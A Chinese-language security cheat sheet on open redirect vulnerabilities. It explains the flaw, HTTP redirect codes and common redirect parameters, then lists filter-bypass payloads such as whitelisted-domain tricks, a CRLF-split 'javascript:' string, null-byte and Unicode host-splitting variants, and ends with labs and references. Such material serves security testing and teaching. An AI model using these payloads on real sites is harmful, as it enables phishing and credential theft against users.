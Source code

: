 # 开放重定向漏洞

> 当一个Web应用程序接受不受信任的输入并据此重定向请求到包含在不受信任输入中的URL时，就可能发生未验证的重定向和转发。通过修改不受信任的URL输入为恶意站点，攻击者可以成功发起网络钓鱼攻击并窃取用户凭据。由于修改后的链接中的服务器名称与原始站点相同，网络钓鱼尝试可能显得更加可信。未验证的重定向和转发攻击也可以被用来恶意构造一个可以通过应用程序访问控制检查的URL，然后将攻击者转发到他们通常无法访问的特权功能。

## 概述

* [方法论](#方法论)
    * [HTTP重定向状态码](#http-重定向状态码)
    * [重定向方法](#重定向方法)
        * [基于路径的重定向](#基于路径的重定向)
        * [基于JavaScript的重定向](#基于-javascript-的重定向)
        * [常见查询参数](#常见查询参数)
    * [过滤器绕过](#过滤器绕过)
* [实验室](#实验室)
* [参考文献](#参考文献)

## 方法论

开放重定向漏洞发生在当Web应用程序或服务器使用未经验证的、由用户提供的输入来重定向用户到其他站点时。这使得攻击者能够构造一个指向易受攻击站点的链接，该链接会重定向到攻击者选择的恶意站点。

攻击者可以利用此漏洞进行网络钓鱼活动、会话劫持或强制用户在未经同意的情况下执行操作。

**示例**：一个Web应用程序有一个功能，允许用户点击链接并自动重定向到保存的首选主页。这可能实现如下：

```powershell
https://example.com/redirect?url=https://userpreferredsite.com
```

攻击者可以通过将`userpreferredsite.com`替换为恶意网站的链接来利用此处的开放重定向。然后，他们可以在网络钓鱼邮件中分发此链接或将其发布在其他网站上。当用户点击链接时，他们会被带到恶意网站。

## HTTP重定向状态码

HTTP重定向状态码，那些以3开头的状态码，表示客户端必须采取额外行动才能完成请求。以下是一些最常见的状态码：

* [300多种选择](https://httpstatuses.com/300) - 这表示请求有多个可能的响应。客户端应从中选择一个。
* [301永久移动](https://httpstatuses.com/301) - 这意味着所请求的资源已被永久移动到Location头部给出的URL。所有未来的请求都应该使用新的URI。
* [302找到](https://httpstatuses.com/302) - 这个响应代码表示所请求的资源已被临时移动到Location头部给出的URL。与301不同，它并不意味着资源已被永久移动，只是暂时位于其他地方。
* [303查看其他](https://httpstatuses.com/303) - 服务器发送此响应以指导客户端使用GET请求在另一个URI获取所请求的资源。
* [304未修改](https://httpstatuses.com/304) - 这用于缓存目的。它告诉客户端响应没有被修改，因此客户端可以继续使用相同的缓存版本的响应。
* [305使用代理](https://httpstatuses.com/305) - 所请求的资源必须通过Location头部提供的代理访问。
* [307临时重定向](https://httpstatuses.com/307) - 这意味着所请求的资源已被临时移动到Location头部给出的URL，并且未来的请求仍应使用原始URI。
* [308永久重定向](https://httpstatuses.com/308) - 这意味着资源已被永久移动到Location头部给出的URL，并且未来的请求应使用新的URI。它类似于301，但不允许更改HTTP方法。

## 重定向方法

### 基于路径的重定向

除了查询参数外，重定向逻辑可能依赖于路径：

* 在URL中使用斜杠：`https://example.com/redirect/http://malicious.com`
* 注入相对路径：`https://example.com/redirect/../http://malicious.com`

### 基于JavaScript的重定向

如果应用程序使用JavaScript进行重定向，攻击者可能会操纵脚本变量：

**示例**：

```js
var redirectTo = "http://trusted.com";
window.location = redirectTo;
```

**负载**：`?redirectTo=http://malicious.com`

### 常见查询参数

```powershell
?checkout_url={payload}
?continue={payload}
?dest={payload}
?destination={payload}
?go={payload}
?image_url={payload}
?next={payload}
?redir={payload}
?redirect_uri={payload}
?redirect_url={payload}
?redirect={payload}
?return_path={payload}
?return_to={payload}
?return={payload}
?returnTo={payload}
?rurl={payload}
?target={payload}
?url={payload}
?view={payload}
/{payload}
/redirect/{payload}
```

## 过滤器绕过

* 使用白名单域名或关键字

    ```powershell
    www.whitelisted.com.evil.com 重定向到 evil.com
    ```

* 使用**CRLF**绕过黑名单中的“javascript”关键字

    ```powershell
    java%0d%0ascript%0d%0a:alert(0)
    ```

* 使用"`//`"和"`////`"绕过黑名单中的“http”

    ```powershell
    //google.com
    ////google.com
    ```

* 使用“https:”绕过黑名单中的“//”

    ```powershell
    https:google.com
    ```

* 使用"`\/\/`"绕过黑名单中的“//”

    ```powershell
    \/\/google.com/
    /\/google.com/
    ```

* 使用"`%E3%80%82`"绕过黑名单中的“.”

    ```powershell
    /?redir=google。com
    //google%E3%80%82com
    ```

* 使用null字节"`%00`"绕过黑名单过滤器

    ```powershell
    //google%00.com
    ```

* 使用HTTP参数污染

    ```powershell
    ?next=whitelisted.com&next=google.com
    ```

* 使用"@"字符。[通用Internet方案语法](https://datatracker.ietf.org/doc/html/rfc1738)

    ```powershell
    //<user>:<password>@<host>:<port>/<url-path>
    http://www.theirsite.com@yoursite.com/
    ```

* 创建文件夹作为他们的域名

    ```powershell
    http://www.yoursite.com/http://www.theirsite.com/
    http://www.yoursite.com/folder/www.folder.com
    ```

* 使用"`?`"字符，浏览器会将其转换为"`/?`"

    ```powershell
    http://www.yoursite.com?http://www.theirsite.com/
    http://www.yoursite.com?folder/www.folder.com
    ```

* 主机/分割Unicode规范化

    ```powershell
    https://evil.c℀.example.com . ---> https://evil.ca/c.example.com
    http://a.com／X.b.com
    ```

## 实验室

* [Root Me - HTTP - 开放重定向](https://www.root-me.org/fr/Challenges/Web-Serveur/HTTP-Open-redirect)
* [PortSwigger - 基于DOM的开放重定向](https://portswigger.net/web-security/dom-based/open-redirection/lab-dom-open-redirection)

## 参考文献

* [Unicode规范化中的主机/分割可利用模式 - Jonathan Birch - 2019年8月3日](https://i.blackhat.com/USA-19/Thursday/us-19-Birch-HostSplit-Exploitable-Antipatterns-In-Unicode-Normalization.pdf)
* [开放重定向速查表 - PentesterLand - 2018年11月2日](https://pentester.land/cheatsheets/2018/11/02/open-redirect-cheatsheet.html)
* [开放重定向漏洞 - s0cket7 - 2018年8月15日](https://s0cket7.com/open-redirect-vulnerability/)
* [Open-Redirect-Payloads - Predrag Cujanović - 2017年4月24日](https://github.com/cujanovic/Open-Redirect-Payloads)
* [未验证的重定向和转发速查表 - OWASP - 2024年2月28日](https://www.owasp.org/index.php/Unvalidated_Redirects_and_Forwards_Cheat_Sheet)
* [你不需要运行80种侦察工具就能获得对用户帐户的访问权限 - Stefano Vettorazzi (@stefanocoding) - 2019年5月16日](https://gist.github.com/stefanocoding/8cdc8acf5253725992432dedb1c9c781)